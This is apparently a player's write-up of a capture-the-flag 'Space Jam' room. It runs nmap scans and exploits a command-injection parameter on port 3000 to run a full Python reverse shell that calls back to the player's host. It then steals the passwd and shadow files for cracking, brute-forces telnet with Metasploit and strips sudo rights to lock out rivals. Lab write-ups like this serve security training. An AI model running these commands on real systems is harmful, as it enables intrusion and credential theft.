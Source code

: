 ### Noah Newdorf's Space Jam summary
I started by running two nmap scans, one ‘fast’ scan with the `–f` flag for top 1,00 ports, and another full scan with `–p-` for all ports.  
`sudo nmap -f -sC -sV -T5 -oN fastscan -v 10.10.182.201`  
`sudo nmap -p- -v -sC -sV -T5 -oN fullscan 10.10.182.201`

Abbreviated output of the fast scan:
>Scanning 10.10.182.201 [1000 ports]  
>Discovered open port 80/tcp on 10.10.182.201  
>Discovered open port 23/tcp on 10.10.182.201  
>Discovered open port 22/tcp on 10.10.182.201  
>Discovered open port 3000/tcp on 10.10.182.201  
>Discovered open port 9999/tcp on 10.10.182.201  
>PORT STATE SERVICE VERSION  
>22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)  
>23/tcp open telnet Linux telnetd  
>80/tcp open http Apache httpd 2.4.18 ((Ubuntu))  
>| http-methods:  
>|_ Supported Methods: GET HEAD POST OPTIONS  
>|_http-server-header: Apache/2.4.18 (Ubuntu)  
>|_http-title: Michael Jordan  
>3000/tcp open http Node.js (Express middleware)  
>| http-methods:  
>|_ Supported Methods: GET HEAD POST OPTIONS  
>|_http-title: Site doesn't have a title (text/html; charset=utf-8).  
>9999/tcp open http Golang net/http server  

Taking a random port, I jumped to port 3000 in the browser which gave a very useful hint of ‘cmd parameter missing’.  
Testing the cmd parameter assuming it ran OS commands I did a test of `http://10.10.182.201:3000/?cmd=whoami` which said `root`
This seemed too easy but all evidence showed it really did run commands as root.  
Before creating my reverse shell I did a `http://10.10.182.201:3000/?cmd=echo unnoable > /root/king.txt` to get the king points started.  
Going over to pentestmonkey’s reverse shell cheat sheet I started a `nc –lvnp 12345` listener on my end and ran the python shell after checking `which python`.  
`http://10.10.182.201:3000/?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.5.16",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`  
I then upgraded my shell with python and stty:  
`python -c 'import pty; pty.spawn("/bin/bash")'`  
`[ctrl + z]`  
`stty raw –echo`  
`fg`  
Making it harder for others to follow me to root I cleared out the sudo permissions which were a straight shot to root with both users having all sudo access with no password.
I tried adding a new user account but something was messing it up so I just left it and made sure not to lose my access.  
Doing some post exploitation I stole the passwd and shadow files to crack the passwords later. They are in a crackable form now by using the john unshadow tool
`sudo /usr/sbin/unshadow passwd shadow > unshadow.crack`.  
I looked around the machine but only found 2 flags, a duplicate user.txt for both bunny and Jordan, and
a root.txt.  
Rob had also gotten root and did some fuckery with the king.txt so it was impossible to add your name
to it. I tried searching the running processes with `ps –ef | grep king.txt` but couldn’t find the loop he said he was running.
I also attempted bruteforcing the telnet login, and trying an empty username/password.  
`msfconsole`  
`search telnet_login`  
`use 0`  
`options`  
`set RHOSTS 10.10.182.201`  
`set USERNAME spacejam`  
`set PASS_FILE /usr/share/wordlists/rockyou.txt`  
`run`  
But then it locked me out after like 3 tries :(  
There was also a pretty plain looking website on port 80. Running `gobuster` on that originally showed a
couple of directories including /flag/. I tried running it again on that directory but didn’t get anything. I
probably could have searched for php, html, or txt files with the `–x txt,html,php` gobuster flag but
there wasn’t a lot of time at this point.

